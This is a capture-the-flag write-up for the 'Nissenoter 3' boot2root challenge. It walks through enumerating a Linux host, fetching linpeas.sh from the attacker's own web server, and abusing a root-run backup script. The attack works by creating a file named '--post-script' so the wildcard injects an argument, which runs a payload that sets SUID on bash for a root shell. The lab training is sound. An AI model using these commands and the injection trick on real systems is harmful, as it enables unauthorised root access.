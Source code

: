 +++
title = 'Nissenoter 3'
categories = ['Boot2Root']
date = 2023-12-15T15:33:38+01:00
+++

## Challenge Name:

Nissenoter 3

## Category:

Boot2Root

## Challenge Description:

Vi er sikre på, nisserne deler statshemmeligheder, hvorfor skulle netværket ellers være lukket og være beskyttet af teknologi i verdensklasse? - Vores praktikant siger i hvert fald, at det er verdensklasse.

_Opgaven er tilgængelig via Haaukins:_

https://ncctf.haaukins.dk/

## Approach

### The final enumeration

Continuing from [Nissenoter 2](/nc3/boot2root/nissenoter-2) we now have foothold on the server as a user!

Let's immediately execute some initial enumeration and see what we can find

```bash
rrensdyr@edc9b2907c7e:~$ whoami && uname -a && sudo -l
rrensdyr
Linux edc9b2907c7e 5.15.0-88-generic #98-Ubuntu SMP Mon Oct 2 15:18:56 UTC 2023 x86_64 GNU/Linux
-bash: sudo: command not found
```

We are connected as the rrendsyr user on a Linux system, but cannot execute anything as super user. We already know from the previous challenge, that the only file in our home directly is the flag.

```bash
rrensdyr@edc9b2907c7e:~$ find / -type f -perm -04000 -ls 2>/dev/null
  5943279     60 -rwsr-xr-x   1 root     root        59704 Mar 23  2023 /usr/bin/mount
  5943371     36 -rwsr-xr-x   1 root     root        35128 Mar 23  2023 /usr/bin/umount
  5943284     48 -rwsr-xr-x   1 root     root        48896 Mar 23  2023 /usr/bin/newgrp
  5943295     68 -rwsr-xr-x   1 root     root        68248 Mar 23  2023 /usr/bin/passwd
  5943160     52 -rwsr-xr-x   1 root     root        52880 Mar 23  2023 /usr/bin/chsh
  5943347     72 -rwsr-xr-x   1 root     root        72000 Mar 23  2023 /usr/bin/su
  5943154     64 -rwsr-xr-x   1 root     root        62672 Mar 23  2023 /usr/bin/chfn
  5943221     88 -rwsr-xr-x   1 root     root        88496 Mar 23  2023 /usr/bin/gpasswd
  6704110    640 -rwsr-xr-x   1 root     root       653888 Sep 23 22:11 /usr/lib/openssh/ssh-keysign
  6704087     52 -rwsr-xr--   1 root     messagebus    51272 Sep 16 10:03 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  rrensdyr@edc9b2907c7e:~$
```

The intention of this command is to look for [SUID bits](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit), which can be used in certain situations to escalate privileges (PrivEsc). One great site for finding such tricks is [GTFOBINS](https://gtfobins.github.io/).
Unfortunately this is also not a possible path forward, seeing as only the root user has these bits set.

We therefore upload an enumeration script from our attacking machine to the victim by opening a webserver from our Kali machine

```bash
┌──(haaukins㉿kali)-[~]
└─$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

and on the victim we make a wget request to download linPeas

```bash
rrensdyr@edc9b2907c7e:~$ curl -O http://77.229.233.4:1337/linpeas.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  815k  100  815k    0     0  51.5M      0 --:--:-- --:--:-- --:--:-- 53.1M
rrensdyr@edc9b2907c7e:~$ ls
flag.txt  linpeas.sh
rrensdyr@edc9b2907c7e:~$ chmod +x linpeas.sh
```

After downloading the [enumeration script](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) and making it executable, we run it and read through the report, in which we see that there is an interesting "/var/backups/backup.sh" script owned by root

```bash
╔══════════╣ Backup files (limited 100)
-rwxr-xr-x 1 root root 632 Dec  8 08:27 /var/backups/backup.sh
```

Let's take a look at this script

```bash
#!/bin/bash

user_notes="/var/www/html/user_notes/"
backup_dir="/var/backups/user_notes/"
backup_file="$backup_dir$(date +%Y%m%d-%H%M%S).tar.gz"

function backup {
  pushd "$user_notes" > /dev/null || exit
  tmp_dir=$(mktemp -d)
  /usr/local/bin/backup -o "$tmp_dir" *
  pushd "$tmp_dir" > /dev/null || exit
  tar -czf "$backup_file" .
  popd > /dev/null || exit
  rm -rf "$tmp_dir"
}

function remove_old_backups {
  dir_files=$(find $backup_dir -type f -name "*.tar.gz" | wc -l)

  if [[ "$dir_files" -gt 7 ]]; then
    find $backup_dir -type f -name "*.tar.gz" | sort | head -n -7 | xargs rm -f
  fi
}

backup
remove_old_backups
```

Upon examining the backup.sh script, we confirm that it indeed takes backups. Two functions are defined: backup and remove_old_backups. Starting with remove_old_backups, we see that it checks if there are more than 7 files ending with .tar.gz in the "/var/backups/user_notes/" directory and deletes the oldest files to leave only 7 remaining.

The backup function changes the current directory to "/var/www/html/user_notes/", then creates a temporary folder. Once this is done, a binary file, "/usr/local/bin/backup", is called with some parameters. After the binary is called, the script moves the folder to temp_dir, where it packs all the files in the folder into a .tar.gz file and saves this file in "/var/backups/user_notes/".

It's time to take a closer look at "/usr/local/bin/backup". Firstly, to find out what -o does, even though we can guess based on the script, but also to see if there are other parameters that can be set. The reason this is interesting is the way the file is called. Namely, with _, which is a Bash Wildcard, as the last parameter. In bash, _ expands to all files in the current directory, so in principle, backup is called as follows.

```bash
/usr/local/bin/backup -o "/tmp/tmp.3yNOBzjK59" file1 file2 file3 etc
```

This means that if there are any interesting parameters that can be set in connection with backup, we have the opportunity to set them if we can control the filenames that appear in "/var/www/html/user_notes/". Therefore, let's immediately check what backup can do.

```bash
rrensdyr@bdf69f47608c:~$ /usr/local/bin/backup
Missing output folder
Allowed options:
--help produce help message
-i [ --input-files ] arg Files to backup
-o [ --output-folder ] arg Folder to backup to
--pre-script arg Script to run before starting the backup
--post-script arg Script to run after finishing the backup
```

Okay, it looks like it can run scripts both before and after a backup has been made, via --pre-script and --post-script, respectively. From here, one can either take an educated guess, guessing that, for example, .sh files are meant, or download and reverse engineer the backup binary.

We take an educated guess. So let's write two files to "/var/www/html/user_notes/", one named "--post-script", and one named "Adamino", containing our exploit. Unfortunately, rrensdyr cannot write to the folder, so we need to do it through the web interface.

First, we create a note with the title Adamino and the following content:

```bash
#!/usr/bin/bash
chmod +s /usr/bin/bash
```

"chmod +s" is used for setuid and ensures that a binary will run with the privileges of the file owner. In this case, the owner is root, which happens to be the user we want to access.

Then, a note is created with the title "--post-script" and arbitrary content. Once that file is created, our exploit code will be executed.

```bash
rrensdyr@bdf69f47608c:~$ ls -l /usr/bin/bash
-rwsr-sr-x 1 root root 1265648 Apr 23 2023 /usr/bin/bash
```

As we can see in the snippet above, setuid (SUID) and setguid (SGID) have been set on /usr/bin/bash, which is perfect. If we now call bash with the -p flag, for privileged mode, we get a root shell.

```bash
rrensdyr@bdf69f47608c:~$ bash -p
bash-5.2# whoami
root
```

As shown in the snippet above, we have now succeeded, and the final flag can be retrieved!

```bash
bash-5.2# cat /root/flag.txt
NC3{1. Always backup; 2. Forget --; 3. ???? 4. Profit!}
```

## Flag

```text
NC3{1. Always backup; 2. Forget --; 3. ???? 4. Profit!}
```

## Reflections and Learnings

### Initial Enumeration and Strategy:

Employing tools like linpeas.sh was a critical step. It allowed us to discover the /var/backups/backup.sh script, which became the focal point for further investigation. This reinforces the importance of using the right tools for efficient system analysis.

### Analyzing the Backup Script:

The deep dive into the backup.sh script was a reminder that sometimes, the path to escalation lies not in exploiting a weakness but in leveraging the intended functionality of system scripts.

### Exploiting the Backup Binary:

The discovery of the --pre-script and --post-script options in /usr/local/bin/backup was pivotal. It’s a lesson in thorough examination and thinking creatively about how to use the system's features to our advantage.

### The journey at an end

All in all Nissenoter was great fun and a wonderful learning path for Web exploitation! In its essence it was a tremendous showcase of a "typical HackTheBox" challenge, in which we through careful enumeration can identify exploits to execute in order to gain foothold and in the end escalate our privileges to become system administrator and retrieve the final flag!
